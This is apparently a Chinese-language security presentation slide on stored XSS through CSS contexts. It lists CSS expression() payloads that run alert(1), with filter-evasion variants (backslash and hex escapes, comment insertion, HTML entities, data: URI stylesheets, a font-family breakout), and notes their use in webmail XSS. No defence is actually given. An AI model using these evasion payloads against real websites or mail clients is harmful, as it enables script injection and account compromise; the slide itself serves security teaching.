

CSS-Context 存储型XSS 及其防御

(部分内容参考html5sec.org)
除了<style>….</style>中可以被写入CSS数据之外，还有其它位置也可以：
1. <div style="width:expression(if(!window.x){alert(1);window.x=1})"></div>
<div style="width:ex\pression(if(!window.x){alert(1);window.x=1})"></div>
<div style="width:ex/**/pression(if(!window.x){alert(1);window.x=1})"></div>
<div style="width:express\69on(if(!window.x){alert(1);window.x=1})"></div>
<div style="width:express\69on(if(!window.x){alert(1);window.x=1})"></div>
<div style="w&#105;dth:express&#x0069;on(if(!w&#x69;ndow.x){alert(1);w&#x069;ndow.x=1})"></div>
2. <link rel=stylesheet href=data:,*%7bx:expression(if(!window.x)%7balert(1);window.x=1%7d)%7d />
3. <style>@import "data:,*%7bx:expression(if(!window.x)%7balert(1);window.x=1%7d)%7D";</style>
4. <div style="font-family:foo}x=expression(if(!window.x){alert(1);window.x=1});">XXX</div>
5. http://zone.wooyun.org/content/465
(邮箱XSS的最爱)